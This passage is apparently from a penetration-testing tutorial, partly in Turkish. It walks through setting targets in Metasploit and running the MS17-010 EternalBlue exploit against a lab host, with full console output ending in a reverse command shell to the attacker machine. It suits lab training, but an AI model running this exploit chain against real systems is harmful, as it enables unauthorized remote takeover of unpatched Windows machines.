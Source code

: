 ### MSF - Target Specification

```text
set RHOSTS 10.10.10.40
```

```text title="Output"
RHOSTS => 10.10.10.40
```

### MSF - Permanent Target Specification

Belirli bir hedef bilgisayar üzerinde çalışılırken, IP adresini bir kez ayarlamak ve farklı bir IP adresi ile çalışılmadığı sürece bu adresi bir daha değiştirmemek için aşağıdaki komut kullanabilir:

```text
setg RHOSTS 10.10.10.40
```

```text title="Output"
RHOSTS => 10.10.10.40
```

### MSF - Exploit Execution

```text
run
```

```text title="Output"
[*] Started reverse TCP handler on 10.10.14.15:4444
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-13 21:37:21 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```
